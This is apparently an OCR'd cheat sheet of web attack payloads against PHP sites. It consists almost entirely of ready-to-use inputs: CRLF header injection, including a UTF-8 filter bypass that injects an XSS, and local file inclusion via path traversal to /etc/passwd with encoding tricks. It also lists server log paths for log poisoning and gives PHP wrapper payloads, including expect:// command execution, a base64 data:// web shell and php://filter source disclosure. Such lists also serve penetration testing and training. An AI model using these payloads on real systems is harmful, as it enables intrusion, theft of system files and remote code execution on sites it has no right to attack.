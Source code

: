 # CRLF

## 1) CRLF - Add a cookie

Requested page

```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP Response

```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```


## 2) CRLF - Filter Bypass

Using UTF-8 encoding

```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)

# LFI 

## 1) Basic LFI



```powershell
http://example.com/index.php?page=../../../etc/passwd
```

### 2) Null byte



```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

### 3) Double encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### 4) UTF-8 encoding

```powershell
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## 5) LOGS

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

## 6) PHP Wrappers

```powershell
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

```powershell
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

```powershell
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```


